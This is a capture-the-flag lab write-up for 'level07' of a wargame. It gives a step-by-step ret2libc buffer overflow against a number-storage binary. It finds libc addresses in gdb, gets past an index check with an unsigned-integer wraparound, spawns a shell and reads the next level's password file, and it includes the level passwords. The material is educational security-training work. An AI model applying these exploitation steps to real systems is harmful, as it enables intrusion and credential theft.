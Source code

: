 # Level 07
*password : GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8*

## Analyze

```
scp -P 4242 level07@192.168.56.109:level07 binary/
```

## Buffer overflow

**objective** : use the program to fill the buffer and execute `/bin/sh`

```
(gdb) find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) info funct system
...
0xf7e6aed0  system
...
(gdb) info funct exit
...
0xf7e5eb70  exit
...
```
- convert addresses to unsigned int
   - `system` : 0xf7e6aed0 = 4159090384\
   - `exit` : 0xf7e5eb70 = 4159040368\
   - `/bin/sh` : 0xf7f897ec = 4160264172

- eip offset found = 456

```
buffer[index * 4] = number;
```
- `system` at index 114 (456 / 4)
- `exit` at index 115
- `/bin/sh` at index 116\

index must not be a multiple of 3, but 114 % 3 = 0.\
max unsigned int : 4294967296\
4294967296 / 4 + 114 = 1073741938\
=> (unsigned int)1073741938 = 114\
1073741938 % 3 = 1\
so `system` at index 1073741938

```
$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115       
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
